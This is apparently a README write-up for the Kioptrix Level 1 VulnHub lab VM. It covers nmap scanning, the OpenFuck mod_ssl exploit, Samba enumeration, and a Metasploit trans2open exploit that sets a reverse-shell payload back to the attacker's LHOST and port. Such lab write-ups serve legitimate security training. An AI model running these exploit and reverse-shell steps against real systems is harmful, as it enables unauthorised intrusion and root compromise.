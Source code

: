 # writeup kioptrix level 1
  This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.
  
# Download vm-machine from vulnhub website:
link: https://www.vulnhub.com/entry/kioptrix-level-1-1,22/ .

# Solution:
  [+] At the beginning, we need to perform ping sweep to discover network devices that alive. <br>
    command: 
    <code>sudo nmap -sn 192.168.1.0/24 </code> <br><br>
   <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/ping_sweep.png"/>
   <br><br>
   
  [+] After finding target IP, we need to perform port scan and banner grabbing over TCP through nmap. <br>
    command: <code>sudo nmap -sS -sV -O 192.168.1.104 -p-</code> <br><br>
    <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/nmap_portscan_banner_grabbing.png"/>
    <br><br>
    
  [+] Now, we can performing vulnerability assessment through doing search about vulnerabilities that can be found according to protocols versions.  <br>
    that depend on your search skill :D. <br>
    i found some vulneravilities:- <br>
    -- [1] buffer-over Apache mod_ssl < 2.8.7 OpenSSL <br>
    -- [1] download openfuck script from: 
     <a href="https://www.exploit-db.com/exploits/764/">exploit</a> <br>
     -- [1] or here: <a href="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/additional_content/openfuck.c"> Github </a> <br>
     -- [1] or modified script: <a href="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/additional_content/openfuck_modified.c ">Modifeid script:Github</a><br>
     -- [1] you can download the exploit script to using it.<br>
     -- [1] command: <code>./OpenFuck 0x6b 192.168.1.106</code> <br>
     <pre>
     -- [1] note: if any problem occur during running of the script, you will find some solution here. <br>
     -- [1] link: <a href="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/additional_content/install_openfuck.md "> follow this instructions</a> <br>
     </pre>
      -- [1] POC: <br>
     <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/overflow.png"/>
    <br><br>
      -- [2] samba: <br>
      -- [2] enumeration commands: <br>
          <code> enum4linux 192.168.1.104 </code> <br>
      -- [2] detected samba version: <br>
          <code> msfconsole </code> <br>
          <code> msf > search smb_version </code> <br>
          <code> msf > use auxiliary/scanner/smb/smb_version </code> <br>
          <code> msf auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.1.104 </code> <br>
          <code> msf auxiliary(scanner/smb/smb_version) > exploit  </code> <br>
          <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/samba_version.png"/>
      -- [2] samba 2.2.1a is vulnerable <br>
          command:
            <code> msf > search samba  </code> <br>
            <code> msf > use exploit/linux/samba/trans2open  </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set RHOST 192.168.1.104 </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set RPORT 139 </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set payload generic/shell_reverse_tcp </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set LHOST 192.168.1.105 </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set LPORT 4444 </code> <br>
            <code> msf exploit(linux/samba/trans2open) > exploit </code> <br>
      -- [2] POC:
            <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/samba_overflow.png"/>
      <pre>we are do the best to keep it up-to-date and adding more vulnerabilties if we found any of them at this machine.
      Best wishes,,</pre>
